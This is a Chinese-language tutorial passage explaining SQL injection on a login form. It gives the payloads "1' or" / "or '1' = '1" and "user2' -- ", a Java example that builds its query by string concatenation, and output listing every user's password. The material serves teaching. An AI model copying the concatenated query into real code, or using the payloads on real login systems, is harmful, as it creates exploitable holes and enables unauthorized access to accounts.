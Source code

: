 在历史中曾有运用SQL注入来攻破数据库的案例，例如如下是一个用户登陆的案例，我们需要使用用户名称以及用户密码来查找出用户用以登录

```sql
select * from admin where name = 'user' and pwd = 'password';
```

其中target用我们用户输入的内容替换，正常的情况中输入正确的用户以及密码即可找到对应的用户，但是通过SQL注入我们输入的用户密码如下

```cmd
user = 1' or
password = or '1' = '1
```

将用户以及密码替换到数据库语句中就会发生以下情况

```sql
select * from admin where name = '1' or' and pwd = 'or '1' = '1';
```

其中'1' = '1'显然是满足条件的，以此我们得到了所有用户的记录，以下是一个代码示例

```java
System.out.print("输入用户名称：");
String inputName = scanner.nextLine();
System.out.print("输入用户密码：");
String inputPwd = scanner.nextLine();
String sql = "select id,name,pwd from admin where name = '" + inputName + "' and pwd = '" + inputPwd + "';";
System.out.println(sql);
//使用executeQuery返回结果集
ResultSet result = statement.executeQuery(sql);
//通过while循环输出结果集
while(result.next()) {
    int id = result.getInt(1);
    String name = result.getString(2);
    String pwd = result.getString(3);

    System.out.println(id + "\t" + name + "\t" + pwd);
}
```

测试结果

```shell
输入用户名称：1' or
输入用户密码：or '1' = '1
select id,name,pwd from admin where name = '1' or' and pwd = 'or '1' = '1';
2	user1	password1
3	user2	password2
4	user3	password3
```

或者你想要查看一个指定的用户（密码随意）

```shell
输入用户名称：user2' -- 
输入用户密码：123
select id,name,pwd from admin where name = 'user2' -- ' and pwd = '123';
3	user2	password2
```
